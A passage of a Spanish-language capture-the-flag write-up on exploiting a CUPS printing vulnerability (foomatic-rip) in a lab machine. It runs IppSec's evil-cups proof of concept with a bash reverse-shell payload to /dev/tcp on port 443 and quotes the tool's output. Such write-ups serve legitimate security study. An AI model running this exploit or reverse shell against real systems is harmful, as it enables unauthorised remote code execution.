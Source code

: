 Aunque sabiendo como funciona la vulnerabilidad, tenemos que hacer creer al servidor que ha descubierto una impresora mandando el paquete UDP.

Esta máquina es del gran `ippsec` y también ha escrito un PoC para realizar esta explotación.
https://github.com/IppSec/evil-cups

Nos clonamos el repo 
```console
$ git clone https://github.com/IppSec/evil-cups
Cloning into 'evil-cups'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), done.
Resolving deltas: 100% (1/1), done.
```

Y instalamos las dependencias (solo es una)
```console
$ pip3 install -r requirements.txt
```

Al ejecutar el exploit...
```console
$ python3 evilcups.py 10.10.14.129 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.14.129/443 0>&1'"
IPP Server Listening on ('10.10.14.129', 12345)
Sending udp packet to 10.10.11.40:631...
Please wait this normally takes 30 seconds...
20 elapsedB2
target connected, sending payload ...

target connected, sending payload ...
204 elapsed
```

Y no recibimos nada.
![Write-up Image](images/Screenshot_2.png)

Como bien he explicado antes, necesitamos que la impresora maliciosa intente imprimir algún documento para que se utilice `foomatic-rip` y se ejecute el comando malicioso.

==A partir de este momento la IP de mi máquina pasa a ser la 10.10.14.73 ya que tuve problemas con la VPN, esto es lo que pasa si no pagas el VIP.==

Si ahora comprobamos que impresoras existen en el panel de CUPS encontramos lo siguiente.
![Write-up Image](images/Screenshot_3.png)
